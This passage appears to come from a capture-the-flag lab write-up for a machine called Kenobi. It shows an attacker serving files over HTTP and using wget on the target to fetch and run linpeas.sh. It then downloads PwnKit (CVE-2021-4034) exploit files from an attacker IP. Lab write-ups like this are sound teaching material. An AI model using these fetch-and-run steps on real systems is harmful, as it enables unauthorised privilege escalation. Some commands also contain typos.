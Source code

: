 ```shell
python -m http.server 1111
```
<img src="{{'/assets/img/images/03.Kenobi/18.png' | prepend: site.baseurl }}" height="200">

> On target machine

```shell
wet http: //10.6.29.149:1111/linpeas.sh
```

Change the file permissions to executable and run the file.

```shell
chmod +x linpeas.sh
```
```shell
./linpeas.sh
```

<img src="{{'/assets/img/images/03.Kenobi/19.png' | prepend: site.baseurl }}" height="700">

We can see that the target machine is vulnerable to CVE-2021-4034.

<img src="{{'/assets/img/images/03.Kenobi/20.png' | prepend: site.baseurl }}">

Clone the repo into your machine.

```
https://github.com/ryaagard/CVE-2021-4034.git
```

```shell
cd CVE-2021-4034
```

Start the python server again to server the files.

```shell
python -m http.server 1111
```

On target machine create a folder and download all the files to the machine.

```shell
wet http://10.6.29.149:1111/evil.so
```

```
wget http://10.6.29.149:1111/evil-so.c
```

```shell
wget http://10.6.29.149:1111/exploit.c
```

```shell
wget http://10.6.29.149:1111/Makefile
```

```shell
wget http://10.6.29.149:1111/README.md
```
